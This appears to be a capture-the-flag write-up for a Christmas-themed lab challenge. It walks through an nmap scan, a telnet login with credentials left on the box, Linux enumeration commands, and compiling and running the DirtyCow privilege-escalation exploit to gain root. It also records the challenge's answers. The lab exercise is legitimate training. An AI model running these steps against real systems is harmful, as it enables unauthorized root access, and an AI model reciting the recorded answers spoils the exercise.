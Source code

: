 # IP=10.10.181.85


### [Day 13] John Hammond - Coal For Christmas ###

1. What old, deprecated protocol and service is running?

	* Ran nmap scan: `nmap -sC -sV -oN nmap/initial $IP`
	* This looked out of place: `23/tcp  open  telnet  Linux telnetd`. Seems like an out-of-date ssh.

```
telnet
```

2. Connect to this service to see if you can make use of it. You can connect to the service with the standard command-line client, named after the name of the service, or netcat with syntax like this: `telnet 10.10.181.85 <PORT_FROM_NMAP_SCAN>`. What credential was left for you?

	* Ran the provided command with port 23. Was greeted with a lovely message providing me with credetials:
	```
	Username: santa
	Password: clauschristmas
	```
	* Used them to login.

```
clauschristmas
```

3. Perform some enumeration. What distribution of Linux and version number is this server running?

	* Was provided with some example enumeration commands, which helped me get the distribution and version:
		* `cat /etc/*release`
		* `uname -a`
		* `cat /etc/issue`

```
Ubuntu 12.04
```

4. Take a look at the cookies and milk that the server owners left for you. You can do this with the cat command as mentioned earlier (`cat cookies_and_milk.txt`). Who got here first?

```
grinch
```

5. Find a copy of the original DirtyCow exploit online (https://github.com/FireFart/dirtycow/blob/master/dirty.c), and get it on the target box. What is the verbatim syntax you can use to compile, taken from the real C source code comments?

	* Took me a hot second to find the right exploit relevant to this challenge. The link listed in the description is what I found and the file contains all the instructions you need.

```
gcc -pthread dirty.c -o dirty -lcrypt
```

6. Run the commands to compile the exploit, and run it. What "new" username was created, with the default operations of the real C source code?

	* Read dirty.c documentation.
	* Ran: `./dirty scottwashere`. This got a bit hung up so I had to hit Ctrl-C.
	* Switched into the new, escalated user account, firefart: `su firefart`.

```
firefart
```

7. Hop over to the /root directory to own this server. Uh oh, looks like that perpetrator left a message! Follow his instructions to prove you really did leave Coal for Christmas! After you leave behind the coal, you can run `tree | md5sum`. What is the MD5 hash output?

	* Created a new file, coal: `touch coal`
	* Generated the hash: `tree | md5sum`

```
8b16f00dd3b51efadb02c1df7f8427cc
```
